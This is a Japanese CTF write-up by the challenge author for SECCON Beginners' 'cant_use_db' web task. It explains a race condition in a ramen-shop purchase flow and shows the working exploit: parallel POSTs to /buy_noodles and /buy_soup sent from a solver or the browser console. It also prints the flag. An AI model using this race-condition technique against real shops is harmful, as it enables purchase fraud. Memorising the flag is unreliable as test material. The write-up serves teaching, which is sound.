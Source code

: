 # cant_use_db

## 問題文
Can't use DB.  
I have so little money that I can't even buy the ingredients for ramen.  
🍜  
[https://cant-use-db.quals.beginners.seccon.jp/](https://cant-use-db.quals.beginners.seccon.jp/)  
[cant_use_db.tar.gz](files/cant_use_db.tar.gz) 1cded20dd165e1eca3cc12bee2010e65fe6ba9ea  

## 難易度
**Medium**  

## 作問にあたって
通常のrace condition問です。  
もう少し時間についてシビアにしたかったですが、通信環境が悪い方々も解けるようsleepを長めに挿入しました。  
そのためボタンを連打することで解けてしまった方も一定数いたようで、醍醐味を味わえなくなってしまい申し訳ないです。  
"なんか解けた"→"理由を調べる"を行っていただけると良いと思います。  
コードがクソだと感じたあなたは正常です。  

## 解法
ラーメンサイトが表示される。  
![images/0.png](images/0.png)  
ソースを見ると、ユーザ情報はファイル管理のようだ。  
所持金以上のものを買うサイトから見てもrace conditionを狙う。  
購入処理で`/buy_noodles`、`/buy_soup`へPOSTを投げているようだ。  
並列にPOSTを投げてやればよい。  
```bash
$ python solver.py
~~~
ctf4b{r4m3n_15_4n_3553n714l_d15h_f0r_h4ck1n6}
```
ブラウザのコンソールで以下を実行した後`/eat`へアクセスしてもよい。  
```javascript
$.post('/buy_noodles');
$.post('/buy_soup');
$.post('/buy_noodles');
$.post('/buy_soup');
$.post('/buy_noodles');
$.post('/buy_soup');
$.post('/buy_noodles');
$.post('/buy_soup');
```

## ctf4b{r4m3n_15_4n_3553n714l_d15h_f0r_h4ck1n6}
